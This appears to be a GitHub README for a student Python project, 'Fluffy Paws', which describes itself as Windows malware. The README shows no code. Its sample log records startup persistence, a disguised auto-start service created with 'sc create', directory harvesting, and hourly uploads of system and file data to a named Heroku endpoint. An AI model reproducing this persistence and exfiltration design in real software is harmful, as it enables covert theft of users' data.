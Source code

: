 # Fluffy Paws

A project for Estonian IT College I719-Fundamentals-of-Python class.


# Important!
This is a Windows malware it will send your data to a live server.

Please don't use it!


# Information sent to server

    {"kind"=>"Log", "data"=>["2017-03-15 21:59:18 INFO Goliath On line...", "2017-03-15 21:59:19 DEBUG I'm already in (C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup), skipping", "2017-03-15 21:59:19 DEBUG I'm already in (C:\\Windows\\system32\\config\\systemprofile\\Documents), skipping", "2017-03-15 21:59:19 DEBUG Launching a subprocess: \"sc create SuperAwesomeWindowsHelper\nbinPath= \"C:\\Windows\\system32\\config\\systemprofile\\Documents\\fluffypaws.exe\"\nDisplayName= \"WinHelper\"\nstart= auto\"", "2017-03-15 21:59:49 DEBUG Subprocess return code: None", "2017-03-15 21:59:49 INFO Subprocess finished", "2017-03-15 21:59:49 INFO Started dir info (C:\\Windows\\system32\\config\\systemprofile\\Documents)", "2017-03-15 21:59:51 INFO Finished dir info (C:\\Windows\\system32\\config\\systemprofile\\Documents)", "2017-03-15 21:59:51 DEBUG Rows of data (1)", "2017-03-15 21:59:51 DEBUG Sending data to (https://tranquil-caverns-83807.herokuapp.com/json)", "2017-03-15 21:59:52 DEBUG Json sent, response (200)", "2017-03-15 21:59:52 INFO Sending log to server", "2017-03-15 21:59:52 DEBUG End of loop, will wait for 3600 seconds"]}
    {"file_data"=>{"file_data"=>{"data"=>[{"files"=>[{"name"=>"desktop.ini", "stats"=>[33206, 281474976793944, 136187296, 1, 0, 0, 402, 1467218973, 1467218973, 1467218973]}, {"name"=>"fluffypaws.exe", "stats"=>[33279, 1407374883646712, 136187296, 1, 0, 0, 6514135, 1489607864, 1489607864, 1489607864]}], "folder"=>"C:\\Windows\\system32\\config\\systemprofile\\Documents"}], "kind"=>"User path data"}}, "ip"=>"1.1.1.1", "pc_data"=>{"data"=>{"Name"=>"erik-PC", "System"=>"Windows", "Version"=>"6.1.7601", "Machine"=>"x86", "Release"=>"7", "Processor"=>"x86 Family 6 Model 69 Stepping 1, GenuineIntel"}, "kind"=>"PC info"}}


# Instalation
Don't!
For testing purpuses use Windows virtual machine then clone this repo and run fluffypaws[dot]py in console.


To create binary [pyinstaller](https://pyinstaller.readthedocs.io) can be used.
